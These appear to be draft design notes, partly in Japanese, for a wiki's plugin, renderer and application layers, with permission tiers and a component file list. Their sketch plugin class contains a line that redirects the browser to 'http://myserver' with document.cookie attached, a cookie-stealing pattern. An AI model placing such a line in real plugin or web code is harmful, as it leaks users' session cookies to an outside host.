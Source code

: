 ```js
Class AppBase{
    abstract onRender(context:WikiRenderContext); 
}
Class NewApp extends AppBase{
    onRender(context:WikiRenderContext); {
        context.pageName();
        const n=context.params(0);
        context.outputAsText("Hello"+n);
        context.outputAsWiki("[[link]]");
        $("body").empty();
        location.href="http://myserver?"+document.cookie;
    }
}
```


/index.html?page=FrontPage&plugin=.md&app=editor
/index.html?page=FrontPage&plugin=.fc2&app=default
editorとは？



---
# Renderer
## 対象
メイン全体にかかる.
## 権限
 super
## example.
- EditorRenderer
  - textarea
  - preview
- WikiRenderer
  - SyntaxPlugin が適用？
- KeijibanRenderer
- ChatRenderer
---
# Plugin 必須.
## 対象
 一部にかかる.
## 権限
 normal
## example.
- SyntaxPlugin
  - (default)FC2Syntax
  - MarkDownSyntax
  - UserSyntax - json
---
# Application
## 対象
フロートウィンドウ...レイヤーもあり.
Rendererを内包？
## 権限
 admin
## example.
- UploaderApp

---
---

# 自由度
- root 開発者
- admin サイト管理者
- super ユーザー（信頼済）
- normal ユーザー（一般）

---
---

# ページ構造
/user
/user/page
/global


```js
//AppManager.install("keijiban","k.js");
/*

* plugin test

#NewApp hoge


*/

```

HeaderやApplication部分をComponentとして扱う。
app/wiki.component.js
app/wiki.component.html
app/editor.component.js
app/editor.component.html
app/uploader.component.js
app/uploader.component.html
app/header.component.js
app/header.component.html
app/footer.component.js
app/footer.component.html
app/menu.component.js
